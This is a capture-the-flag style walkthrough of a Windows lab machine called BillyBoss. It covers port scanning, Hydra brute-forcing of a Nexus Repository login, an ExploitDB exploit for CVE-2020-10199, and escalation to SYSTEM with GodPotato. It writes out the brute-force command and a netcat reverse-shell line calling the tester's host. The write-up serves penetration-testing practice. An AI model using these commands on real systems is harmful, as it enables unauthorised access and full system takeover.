Nmap scan 

```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.104.61
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-26 14:14 IST
Warning: 192.168.104.61 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.104.61
Host is up (0.27s latency).
Not shown: 64464 closed tcp ports (reset), 1057 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8081/tcp  open  blackice-icecap
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 53.46 seconds
```

```sh
┌──(kali㉿kali)-[~/Desktop/offsec/windows/billyboss]
└─$ nmap -sC -sV -T4 -Pn -p 21,80,135,139,445,5040,7680,8081,49664,49665,49666,49667,49668,49669 192.168.104.61
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-26 14:19 IST
Nmap scan report for 192.168.104.61
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH
|_http-server-header: Microsoft-IIS/10.0
|_http-title: BaGet
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8081/tcp  open  http          Jetty 9.4.18.v20190429
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
|_http-server-header: Nexus/3.21.0-05 (OSS)
|_http-title: Nexus Repository Manager
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-26T08:52:15
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 180.62 seconds
```

Visited FTP. But found nothing interesting.



Visited web server on port 80.



I didn't see any exploits for `BaGet` in Exploit Database.

Visited web server on port 8081.



Based on my research, this version is vulnerable to **CVE-2020–10199**, a Java Expression Language (EL) Injection vulnerability that can lead to **Remote Code Execution (RCE)** — though it requires authentication.

There is a public exploit available for this vulnerability, such as the one published on [ExploitDB](https://www.exploit-db.com/exploits/49385).

To proceed with the exploitation, valid credentials for the Nexus Repository Manager are required. Since default credentials didn’t work, I generated a custom wordlist from the website using **CeWL**.

```sh
cewl --lowercase http://192.168.104.61:8081/ > wordlist.txt
```



Next, I performed a **brute-force login attack using Hydra**, utilizing a custom wordlist of usernames and passwords. These credentials were **Base64-encoded** to match the application’s login request format. I also configured Hydra to detect login failures based on **HTTP status code 403**.

```sh
hydra -I -f -L wordlist.txt -P wordlist.txt "http-post-form://192.168.104.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:F=403"
```



### Initial Access:

Eventually, I discovered valid credentials: `nexus:nexus`. With these credentials, I was able to authenticate and proceed to leverage the previously mentioned ExploitDB exploit.

#### Original Exploit


#### Modified Exploit



Started python server and netcat listener. Then ran the exploit.







Captured the local flag.



### Privilege Escalation

o perform privilege escalation, I first checked the user privileges. It turned out that the user I was using had the `SeImpersonatePrivilege` enabled. This privilege can be abused to gain a SYSTEM shell.



It turns out we have **SeImpersonatePrivilege** we can use [GodPotato](https://github.com/BeichenDream/GodPotato)

Run this command to identify .NET version used on the target
.


```CMD
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP" /s
```



First we will download Godpotato from below link and transfer it to the target.

https://github.com/BeichenDream/GodPotato/releases



Then either we can transfer nc.exe from our previously downloaded directory or we can download freshly.



Then start the nc listener. And run the below command.

```CMD
.\GodPotato-NET4.exe -cmd "nc.exe -e cmd 192.168.45.189 5555"
```



And we received the shell.



Reference link : 

https://banua.medium.com/proving-grounds-billyboss-oscp-prep-2025-practice-10-8bbf7ed4dc0f

https://benheater.com/proving-grounds-billyboss/

